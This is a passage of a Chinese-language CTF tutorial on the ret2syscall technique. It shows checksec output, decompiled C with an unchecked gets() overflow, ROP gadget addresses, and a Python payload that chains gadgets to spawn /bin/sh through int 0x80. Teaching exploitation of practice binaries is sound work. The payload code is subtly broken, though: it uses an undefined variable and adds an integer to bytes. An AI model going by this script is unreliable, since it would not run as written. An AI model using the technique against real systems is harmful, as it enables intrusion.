 ```shell
➜  ret2syscall checksec rop
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

IDA查看题目源代码：

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v4; // [sp+1Ch] [bp-64h]@1

  setvbuf(stdout, 0, 2, 0);
  setvbuf(stdin, 0, 1, 0);
  puts("This time, no system() and NO SHELLCODE!!!");
  puts("What do you plan to do?");
  gets(&v4);
  return 0;
}
```

我们发现，NX开启，因此不能用shellcode。但是PIE关闭了。这里需要讲一下PIE，这是一种保护机制，如果打开的话，程序的代码段地址每次运行时会整体加上一个随机的偏移量，如果不知道这个偏移量，那么程序里的每条指令相当于地址随机化了，就无法直接使用ROP了，因为ROP需要知道具体的指令地址。

我们发现，代码里存在一个没有检查长度的gets，说明可以栈溢出。只要计算好偏移量，将函数的返回地址修改成rop链的地址就行。

我们用ROPgadget寻找挑选出以下几个gadget：

```
0x080bb196 : pop eax ; ret
0x0806eb90 : pop edx ; pop ecx ; pop ebx ; ret
0x080be408 : /bin/sh	(--string参数)
0x08049421 : int 0x80
```

于是我们只需要布置这样的rop链：



```python
pop_eax_ret = 0x080bb196
pop_edx_ecx_ebx_ret = 0x0806eb90
int_80 = 0x08049421
sh_str = 0x80be408
padding=b'#'*(0x70)#这里根据动态调试结果计算出填充
payload=padding
payload+=p32(pop_rax_ret)+0xb
payload+=p32(pop_edx_ecx_ebx_ret)+p32(0)+p32(0)+p32(sh_str)
payload+=p32(int_80)
```

为了加深印象，希望大家在pwndbg中手动调试观察rop链的执行情况。

例2.SROP

